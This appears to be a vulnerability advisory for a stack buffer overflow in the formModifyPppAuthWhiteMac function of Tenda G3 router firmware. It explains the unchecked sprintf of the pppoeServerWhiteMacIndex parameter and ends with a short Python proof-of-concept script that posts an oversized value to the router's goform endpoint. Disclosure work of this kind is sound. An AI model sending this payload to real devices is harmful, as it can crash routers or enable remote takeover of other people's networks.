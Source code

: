 # Tenda G3 formModifyPppAuthWhiteMac
### Overview
vendor: Tenda

product: G3

version: <= G3V3.0br_V15.11.0.17

type: Stack Overflow
### Vulnerability Description
Tenda G3 G3V3.0br_V15.11.0.17 were discovered to contain a stack overflow in the formModifyPppAuthWhiteMac function.
### Vulnerability details
Stack-based buffer overflow in function formModifyPppAuthWhiteMac on Tenda G3 before G3V3.0br_V15.11.0.17 devices allow remote attackers to cause a denial of service or remote code execution via a crafted parameter for the http post request.

In the function formModifyPppAuthWhiteMac line 25, it reads in a user-provided parameter, and the variable pppoeServerWhiteMacIndex is passed to the sprintf function without any length check, which may overflow the stack-based buffer. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.
![](images/formModifyPppAuthWhiteMac-1.png)
![](images/formModifyPppAuthWhiteMac-2.png)

### POC
```python
import requests
ip = '192.168.0.1'
url = f'http://{ip}/goform/PppAuthWhiteMacModify'
payload = {
    "pppoeServerWhiteMacIndex": 'a' * 1000
}

res = requests.post(url=url, data=payload)
print(res.content)
```
